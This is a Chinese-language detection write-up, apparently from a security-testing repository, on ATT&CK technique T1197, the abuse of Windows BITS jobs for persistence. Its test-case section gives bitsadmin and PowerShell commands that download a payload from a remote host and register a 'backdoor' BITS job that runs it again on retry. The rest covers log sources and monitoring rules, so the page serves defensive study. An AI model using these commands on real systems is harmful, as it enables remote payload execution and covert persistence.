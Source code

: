 # T1197-win-BITS Jobs权限维持

## 来自ATT&CK的描述

Windows BITS（后台智能传输服务）是一种通过COM（组件对象模型）公开的低带宽异步文件传输机制。BITS通常由更新程序、消息程序和其他希望在后台运行（使用可用空闲带宽）而不中断其他网络应用的程序使用。文件传输任务被实现为BITS作业，其中包含一个或多个文件操作队列。

可以通过PowerShell和BITSAdmin工具访问BITS作业创建和管理接口。

攻击者可能会在运行恶意代码后滥用BITS来实现下载、执行甚至清理动作。BITS任务包含在BITS作业数据库中，不需创建新文件或修改注册表，且通常是主机防火墙允许的。启用BITS的执行还可以通过创建长期作业（默认最大生命周期为90天且可延长）或在作业完成或出现错误（包括系统重启后的错误）时调用任意程序来允许持久性。

BITS上传功能也可用于执行Exfiltration Over Alternative Protocol。

## 测试案例

Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。
从攻击的角度来看，可以滥用此功能，以便在受感染的主机上下载有效负载（可执行文件，PowerShell脚本，Scriptlet等）并在给定时间执行这些文件，以在红队操作中保持持久性。但是，与“ bitsadmin ” 进行交互需要管理员级别的权限。

执行以下命令会将恶意有效负载从远程位置下载到本地目录。

```dos
bitsadmin /transfer backdoor /download /priority high http://10.0.2.21/pentestlab.exe C:\tmp\pentestlab.exe #注意此处下载地址必须是标准的HTTP协议。
```

还有一个PowerShell cmdlet可以执行相同的任务。

```powershell
Start-BitsTransfer -Source "http://10.0.2.21/pentestlab.exe" -Destination "C:\tmp\pentestlab.exe"
```

将文件放入磁盘后，可以通过从“ bitsadmin ”实用程序执行以下命令来实现持久性。用法非常简单：

- 在创建参数需要作业的名称

``` dos
bitsadmin /create backdoor
```

- 该addfile需要文件的远程位置和本地路径

``` dos
bitsadmin /addfile backdoor "http://10.0.2.21/pentestlab.exe"  "C:\tmp\pentestlab.exe"
```

- 该SetNotifyCmdLine将执行的命令

```dos
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\pentestlab.exe NUL
```

- 所述SetMinRetryDelay定义时间回调（秒）

```dos
bitsadmin /SetMinRetryDelay "backdoor" 60
```

- 该简历参数将运行位工作

```dos
bitsadmin /resume backdoor
```

## 检测日志

windows 安全日志\windows BITS应用日志

## 测试复现

![image1](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110145812-668139170.png)

![image2](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110227491-23710429.png)

![image3](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110245500-1362389929.png)

## 测试留痕

![image4](https://s2.ax1x.com/2020/01/14/lqedzV.png)

![image5](https://s2.ax1x.com/2020/01/14/lqeWz6.png)

![image6](https://s2.ax1x.com/2020/01/14/lqmiYn.png)

## 检测规则/思路

建议非系统程序发起的BITS传送作业进行分析检测（白名单机制）。

BITS作为服务运行。可使用Sc查询实用程序（sc query bits）来检查其状态。可使用BITSAdmin工具（bitsadmin /list /allusers /verbose）枚举活跃的 BITS任务。

监控BITSAdmin工具（尤其是Transfer，Create，AddFile，SetNotifyFlags，SetNotifyCmdLine，SetMinRetryDelay，SetCustomHeaders和Resume命令选项）的使用及Windows事件日志来查看BITS活动。还要考虑通过解析BITS作业数据库来调查作业相关的更多详细信息。

监控和分析BITS生成的网络活动。BITS作业使用HTTP（S）和SMB进行远程连接，仅限于创建用户，并且仅在该用户登录时才起作用（即使用户将作业附加到服务账号，此规则也适用）。

## 参考推荐

Window权限维持（六）

BITS Jobs <https://www.cnblogs.com/xiaozi/p/11833583.html>

MITRE-ATT&CK-T1197

<https://attack.mitre.org/techniques/T1197/>

MITRE ATT&CK 攻击知识库（企业）中文版

<https://hansight.github.io/#/detail>

BITS持久化留痕日志文件下载地址

<https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/blob/master/Persistence/persist_bitsadmin_Microsoft-Windows-Bits-Client-Operational.evtx>
